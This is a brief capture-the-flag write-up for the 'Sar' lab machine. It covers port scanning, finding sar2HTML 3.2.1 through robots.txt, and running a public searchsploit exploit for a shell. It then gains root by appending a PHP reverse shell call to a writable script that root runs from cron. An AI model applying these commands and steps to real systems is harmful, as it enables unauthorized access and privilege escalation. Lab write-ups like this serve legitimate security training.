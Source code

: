 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Sar
# 1/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

----------------------------------------------------
# Robots.txt
----------------------------------------------------
got robots.txt
sar2HTML

----------------------------------------------------
# vulnerable service on website (website/sar2HTML)
----------------------------------------------------
sar2html Ver 3.2.1
exploit available on searchsploit
searchsploit -m 49344.py
python3 49344.py 

----------------------------------------------------
# got shell(little unstable but it will do the job)
----------------------------------------------------

----------------------------------------------------
# Privilege escalation
----------------------------------------------------
cat /etc/crontab
/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh

we know root running finally.sh and finally.sh running write.sh
we can edit write.sh
so download php reverse shell
set up listener
and add line "php ./shell.php" to write.sh
echo "php ./shell.php" >> /var/www/html/write.sh
